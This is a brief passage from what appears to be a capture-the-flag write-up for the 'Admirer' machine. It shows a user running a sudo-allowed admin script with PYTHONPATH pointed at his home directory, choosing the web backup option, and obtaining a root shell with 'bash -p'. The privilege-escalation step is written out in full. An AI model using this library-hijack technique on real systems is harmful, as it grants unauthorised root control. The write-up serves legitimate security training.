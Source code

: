 Now we can execute the web backup task and we are `root`!

```bash
waldo@admirer:~$ sudo PYTHONPATH=/home/waldo/ /opt/scripts/admin_tasks.sh

[[[ System Administration Menu ]]]
1) View system uptime
2) View logged in users
3) View crontab
4) Backup passwd file
5) Backup shadow file
6) Backup web data
7) Backup DB
8) Quit
Choose an option: 6
Running backup script in the background, it might take a while...
waldo@admirer:~$ bash -p
bash-4.4#
```
